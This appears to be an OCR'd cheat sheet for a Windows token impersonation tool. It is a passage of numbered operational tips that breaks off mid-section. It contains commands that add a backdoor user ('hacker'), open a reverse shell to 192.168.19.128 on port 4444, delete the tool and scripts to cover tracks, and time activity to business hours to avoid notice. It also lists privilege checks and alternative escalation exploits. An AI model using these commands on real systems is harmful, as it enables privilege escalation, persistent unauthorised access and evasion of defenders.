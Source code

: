 # 2. Clean up after yourself
del TokenImpersonate.exe
Remove-Item C:\Windows\Tasks\*.ps1

# 3. Use local processes (your own PID)
.\TokenImpersonate.exe $pid adduser hacker Pass123!

# 4. Avoid spawning new cmd windows (use existing)
.\TokenImpersonate.exe 6312 shell 192.168.19.128 4444

# 5. Time your operations during business hours
# Less suspicious when admins are actively working
8. Session Awareness
powershell# Check current session
query session

# Spawned processes go to Session 0 (invisible)
# Use existing session processes instead:
Get-Process | Where {$_.SessionId -eq 1} | findstr "cmd"

# Or just use your current process PID
.\TokenImpersonate.exe $pid shell 192.168.19.128 4444
9. Privilege Checks
powershell# Always verify before running
whoami /priv | findstr "SeImpersonate\|SeDebug"

# If missing SeImpersonatePrivilege:
# - Tool won't work
# - You need a different exploit (PrintSpoofer, JuicyPotato, etc.)

# If missing SeDebugPrivilege:
# - Tool will try to enable it
# - May fail on some protected processes
10. Alternative Payload Delivery
powershell# Instead of reverse shell, use the tool to download payloads
